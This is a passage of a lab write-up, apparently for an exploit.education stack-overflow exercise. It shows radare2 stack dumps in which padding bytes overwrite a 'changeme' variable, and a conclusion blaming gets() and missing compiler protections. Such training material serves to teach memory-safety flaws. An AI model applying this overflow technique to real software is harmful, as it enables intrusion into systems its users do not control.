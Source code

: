 {% endhighlight %}

To execute the next instruction by stepping over, simply use `dso`.

{% highlight nasm %}
[0x080484e4]> dso
hit breakpoint at: 80484e9
[0x080484e4]> dr
eax = 0xff9353cc
ebx = 0xf7f39000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xff9354a4
edi = 0x00000001
esp = 0xff9353b0
ebp = 0xff935418
eip = 0x080484e9
eflags = 0x00000286
oeax = 0xffffffff
[0x080484e4]> px/24xw 0xff9353b0
0xff9353b0  0xff9353cc 0x00000000 0x0000006f 0x00000010  .S......o.......
0xff9353c0  0x080482b4 0x08048551 0x00000000 0x58585858  ....Q.......XXXX
0xff9353d0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff9353e0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff9353f0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff935400  0x58585858 0x58585858 0x58585858 0x41414141  XXXXXXXXXXXXAAAA
[0x080484e4]> px/xw 0xff935418-0xc
0xff93540c  0x41414141                                   AAAA
{% endhighlight %}

As shown above, the value of `var_ch` is indeed overwritten.

{% highlight plaintext %}
[0x080484e4]> dc
Well done, the 'changeme' variable has been changed!
{% endhighlight %}

## Conclusion
The binary was not compiled with the necessary features that would otherwise prevent stack-based buffer overflows and contains a call to `gets`, which does not account the size of bytes to be read from STDIN. As such, one needs to account the size of the buffer and simply input more bytes than it can actually hold so that the stack overflows.

[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/
